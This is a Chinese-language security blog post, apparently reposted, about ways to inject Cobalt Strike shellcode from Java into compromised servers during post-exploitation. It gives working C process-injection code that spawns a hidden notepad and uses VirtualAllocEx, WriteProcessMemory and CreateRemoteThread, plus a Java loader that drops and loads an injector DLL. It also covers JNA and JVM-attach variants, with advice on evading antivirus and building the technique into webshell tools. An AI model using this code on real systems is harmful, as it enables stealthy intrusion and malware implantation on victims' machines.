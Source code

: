 在后渗透中常常需要cobaltstrike工具。而向已攻破的服务器注入一段cobaltStrike的shellcode是最便捷的上线方法。偏偏java这种语言屏蔽了很多操作系统的底层细节，注入shellcode又是偏底层的方法。

分享一下java注入shellcode的几种方法

1. JNI
------

java是不可以调用使用c/c++的函数，为了兼容以及其他方面的考虑，JVM可以通过JNI去调用c等函数。

我们需要写一个c文件，按照JNI规范写好函数。函数从java中接收参数，并交给dll去处理。

同样，还是一样的套路，调用openProcess打开目标进程，写入内存，创建远程线程去执行shellcode，在java中也不例外。

cobaltStrike官网上的例子

```php
/* inject some shellcode... enclosed stuff is the shellcode y0 */
void inject(LPCVOID buffer, int length) {
    STARTUPINFO si;
    PROCESS_INFORMATION pi;
    HANDLE hProcess   = NULL;
    SIZE_T wrote;
    LPVOID ptr;
    char lbuffer[1024];
    char cmdbuff[1024];

    /* reset some stuff */
    ZeroMemory( &si, sizeof(si) );
    si.cb = sizeof(si);
    ZeroMemory( &pi, sizeof(pi) );

    /* start a process */
    GetStartupInfo(&si);
    si.dwFlags = STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW;
    si.wShowWindow = SW_HIDE;
    si.hStdOutput = NULL;
    si.hStdError = NULL;
    si.hStdInput = NULL;

    /* resolve windir? */
    GetEnvironmentVariableA("windir", lbuffer, 1024);

    /* setup our path... choose wisely for 32bit and 64bit platforms */
    #ifdef _IS64_
        _snprintf(cmdbuff, 1024, "%s\\SysWOW64\\notepad.exe", lbuffer);
    #else
        _snprintf(cmdbuff, 1024, "%s\\System32\\notepad.exe", lbuffer);
    #endif

    /* spawn the process, baby! */
    if (!CreateProcessA(NULL, cmdbuff, NULL, NULL, TRUE, 0, NULL, NULL, &si, &pi))
        return;

    hProcess = pi.hProcess;
    if( !hProcess )
        return;

    /* allocate memory in our process */
    ptr = (LPVOID)VirtualAllocEx(hProcess, 0, length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);

    /* write our shellcode to the process */
    WriteProcessMemory(hProcess, ptr, buffer, (SIZE_T)length, (SIZE_T *)&wrote);
    if (wrote != length)
        return;

    /* create a thread in the process */
    CreateRemoteThread(hProcess, NULL, 0, ptr, NULL, 0, NULL);
}
```

c文件写好了，只需要再写一个java文件，加载这个编译好的dll就可以植入shellcode

```php
import java.io.*;

public class Demo {
    /* our shellcode... populate this from Metasploit */
    byte shell[] = new byte[0];

    public native void inject(byte[] me);

    public void loadLibrary() {
        try {
            /* our file */
            String file = "injector.dll";

            /* determine the proper shellcode injection DLL to use */
            if ((System.getProperty("os.arch") + "").contains("64"))
                file = "injector64.dll";

            /* grab our DLL file from this JAR file */
            InputStream i = this.getClass().getClassLoader().getResourceAsStream(file);
            byte[] data = new byte[1024 * 512];
            int length = i.read(data);
            i.close();

            /* write our DLL file to disk, in a temp folder */
            File library = File.createTempFile("injector", ".dll");
            library.deleteOnExit();

            FileOutputStream output = new FileOutputStream(library, false);
            output.write(data, 0, length);
            output.close();

            /* load our DLL into this Java */
            System.load(library.getAbsolutePath());
        }
        catch (Throwable ex) {
            ex.printStackTrace();
        }
    }

    public Demo() {
        loadLibrary();
        inject(shell);
    }

    public static void main(String args[]) {
        new Demo();
    }
}
```

这种方式的缺点：

1. 需要落地一个我们自己写的dll文件
2. 我们自己的dll文件没有签名，很容易被杀软查杀

2. JNA
------

既然java与操作系统交互需要使用JNI这么复杂的技术，那么可不可以不用JNI？答案是可以的，JNA技术是由第三方开发。并不是我们不需要JNI技术，而是JNA将复杂的技术细节统统隐藏。一句话概括，JNA不需要我们再写一个c文件，而是直接调用dll。相比较而言，这已经是加载shellcode最好的解决方案。很多APT组织都使用该技术加载shellcode。

通过JNA，调用dll中的方法就像调用java方法一样简单方便。注入shellcode的代码如下（截图某apt组织

![图片](https://shs3.b.qianxin.com/butian_public/fb1bb9f5c8f44cf15cbc71887e68e1263.jpg)

CoffeeShot allocates memory in the target process using VirtualAllocEx

当然，这种其实还是有缺点：

1. JNA所需要的jar包，jdk并不提供，需要我们自己集成，这样的话，我们payload会非常大（1M多
2. jna为了实现调用dll文件，也会生成一个jni的dll文件。而这个dll文件并没有签名，所以遇到杀软一样被查

3. JVM
------

昨天的文章中，我分析了JAVA是如何向其他JVM注入agent包以修改class字节码。我们也可以调用来注入我们自己的shellcode。

[冰蝎beta8内存马防查杀破解](http://mp.weixin.qq.com/s?__biz=MzUzNTEyMTE0Mw==&mid=2247484620&idx=1&sn=cdadffdeac2a021edc1ee49f22880f08&chksm=fa8b1954cdfc904266a2948b26b0daceb908cc1f037ea874f3d6bc59b9706fbfbacde3d560f8&scene=21#wechat_redirect)

该方法虽然同样使用JNI，但是所需的dll文件由JDK提供，安全稳定，且经过oracle签名。

![图片](https://shs3.b.qianxin.com/butian_public/fef97a752bd4960a0331db0cfbe46d285.jpg)

首先我们判断一下JVM中是否已经加载`sun.tools.attach.WindowsVirtualMachine`这个类，如果没有的话，通过java asm去组装一个类。通过java asm组装的类的代码如下![图片](https://shs3.b.qianxin.com/butian_public/f97ab502f8f39576f859a05783cbf0690.jpg)

然后通过反射调用即可![图片](https://shs3.b.qianxin.com/butian_public/f9834d800473f62cf37f7519cd0086009.jpg)

我认为这种方法比较优雅，不用落地dll文件，利用的dll文件经过数字签名，payload的体积比较小。比较适合冰蝎这种webshell工具集成进来。

java demo已经上传知识星球。多转发多点赞，把这个功能集成到webshell管理工具中

**文章转载于”宽字节安全”公众号，已取得转载授权。**
